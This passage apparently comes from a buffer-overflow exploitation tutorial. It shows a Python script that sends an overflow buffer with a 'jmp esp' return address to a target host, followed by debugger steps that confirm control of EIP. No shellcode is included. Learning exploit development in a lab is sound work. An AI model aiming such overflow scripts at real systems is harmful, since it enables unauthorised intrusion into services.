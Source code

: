```python
buf += b"41" * 1020
buf += b'af115062' # jmp esp
buf += b"43" * 4
buf += b"44" * (size - int(len(buf) / 2))
buf += b"\n"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")

```

Reset and unpause the server.

Before you run this script go to address `625011af` with the black arrow in the menu and set a breakpoint on this address with `<F2>`

Once you run the exploit you should hit the breakpoint. When you skip ahead with `<F7>` the EIP should end up in our `CCCC` section after performing the `JMP ESP` instruction.
